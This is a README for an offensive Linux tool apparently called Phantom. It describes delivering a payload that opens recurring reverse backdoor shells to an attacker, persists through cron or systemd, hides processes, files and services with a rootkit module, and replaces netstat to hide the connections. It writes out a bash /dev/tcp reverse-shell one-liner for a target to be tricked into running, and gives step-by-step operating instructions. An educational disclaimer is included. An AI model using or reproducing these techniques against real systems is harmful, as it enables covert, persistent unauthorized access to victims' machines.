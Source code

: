 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat. It only works on
Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

```
phantom-init  [ip][1st-port][2nd-port]
```
* ip: the attacker's ip
* 1st-port: the port that listens for connections to deliver the payload
* 2nd-port: the port that listens for the backdoor shells after delivering the payload

You have to somehow make the target execute this code, so that he connects to the 1st-port:  
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'  
ip and 1st-port are the ones specified above.

## Files

* phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to the 2nd-port.
* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
  creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
  and the systemd services themselves. It is also persistent through reboots because the second systemd service
  (the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
  connections to the specified ip and 2nd-port.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2.  Close the ncat listening process so all the connections get closed with it.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
